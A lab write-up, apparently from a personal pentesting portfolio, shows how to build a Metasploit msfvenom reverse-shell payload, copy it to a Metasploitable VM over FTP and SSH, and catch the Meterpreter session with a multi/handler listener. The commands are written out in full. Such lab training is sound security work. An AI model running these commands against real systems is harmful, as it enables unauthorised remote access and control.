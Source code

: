 ```yaml
---
title: 😈 Establishing a Reverse Shell Using Metasploit and Msfvenom
permalink: /metasploit2
parent: Pentesting
---
```

# Establishing a Reverse Shell Using Metasploit and Msfvenom
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this Lab, I’ll be using Msfvenom and Metasploit to establish a reverse shell on a target machine. Msfvenom is a command line instance of Metasploit that is used to generate payloads, which is a piece of software that is designed to perform malicious actions on a target system. This payload must be delivered to and executed from the target machine. To do this, an attacker will use social engineering techniques or exploit a known vulnerability on the target machine. 

In this case, I’ll be creating a payload designed to establish a reverse shell. A reverse shell differs from a normal shell in that the target system initiates the connection back to the attacker’s machine. This connection is established when the payload is executed by the user of the target machine. From the attacker’s perspective, a benefit of establishing a reverse shell is that it may help bypass firewalls that block incoming traffic since the connection is coming from the target machine rather than the attacker’s machine. 

## Goals & Objectives
1. Create a reverse shell payload using Metasploit and Msfvenom
3. Transfer the payload to the target machine.
4. Create a listener to "listen" for an incoming connection from the target machine.
6. Execute the payload on the target machine.

## Results
### 📄 Task 1: Run Metasploit and Msfvenom

![](/assets/images/101_77_metasploit2/step0.png)

### 📄 Task 2: Create the reverse shell payload

In Metasploit, I use the following command to create the reverse shell payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf
```

![](/assets/images/101_77_metasploit2/step1.png)

```-p linux/x86/meterpreter/reverse_tcp``` specifies the reverse shell payload  
```LHOST``` specifies the IP address of the machine I want the target machine to establish a connection with, which is the attacker’s machine  
```LPORT``` specifies the port the target machine will connect through  
```-f``` specifies the file type. ELF, or Executable and Linkable Format, is a common file format for executable files  
```-o``` saves the payload with the chosen file name: reverse-sh.

<br>
<br>
### 📄 Task 3: Transfer the payload to the target machine

There are many ways an attacker can transfer a payload to a target machine, such as using social engineering techniques like phishing, USB baiting, or watering hole attacks. For the sake of simplicity, I am provided with the username and password of the target machine.

With those credentials, I can use FTP (file transfer protocol), which is a standard network protocol used to transfer files between devices on a network. I use the following commands:

```bash
ftp 192.168.28.128 
put reverse-sh.elf
by
```

![](/assets/images/101_77_metasploit2/step2a.png)

```ftp 192.168.28.128``` establishes the FTP session. 192.168.28.128 is the IP address of the target machine.
```put reverse-sh.elf``` sends the file to the target machine  
```by``` ends the session

<br>
<br>
### 📄 Task 4: Gain access to the target machine and make the payload executable

I access the target machine by establishing an SSH connection. The Metasploitable VM target machine has a default username and password of "msfadmin" which I use to log in to the machine.

![](/assets/images/101_77_metasploit2/step3.png)

Now that I have access to the target machine, I will give all users on the machine permissions to execute the payload. I use the following command: ```chmod +x reverse-sh.elf```

![](/assets/images/101_77_metasploit2/step4.png)

```chmod``` is the change mode command, which allows me to change the permissions of a file. ```+x``` adds executable permissions to all users. 

To see how changing file permissions works in Linux, see my [Managing File Permissions in Linux](/permissions) project.

<br>
<br>
### 📄 Task 5: Create a listener on the attacker’s machine

In a reverse shell, the target machine is initiating the connection to the attacker’s machine. In order for the attacker’s machine to acknowledge the connection request from the target machine, a listener must be created on the attacker’s machine. 

The listener essentially acts as a receiver, ready to accept the connection initiated by the reverse shell payload.

In a new terminal on Kali Linux, I initiate Metasploit once more by typing ```msfconsole```. Next, to specify that I want to use a listener, I type ```use exploit/multi/handler```. This tells Metasploit that I want to use the multi/handler module. With this module, I must specify three parameters: the local host (the attacker’s machine), the local port (through which the connection will be established), and the payload type. The following commands establish these parameters:

```bash
set lhost 192.168.28.129  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp  
run
```

![](/assets/images/101_77_metasploit2/step5.png)

The attacking machine is now listening for an incoming connection from the target machine.

<br>
<br>
### 📄 Task 6: Execute the payload on the target machine

Finally, with the reverse shell payload in position and the listener active on the attacking machine, I switch back to the first terminal where a connection to the target machine was established using SSH and I type the following:

```./reverse-sh.elf```

Once I hit enter, the reverse shell payload executes. The Metasploit terminal outputs that “Meterpreter session 1 opened.” This indicates that the target machine initated the connection request and the attacking machine accepted the connection.

To find out how a Meterpreter shell works, please refer to my [Upgrading to Meterpreter Shell Using Metasploit](/metasploit1) project. 

Next, I type shell to access the reverse shell.

![](/assets/images/101_77_metasploit2/step6.png)

<br>
<br>

---

<a href="#top" id="back-to-top">Back to top</a>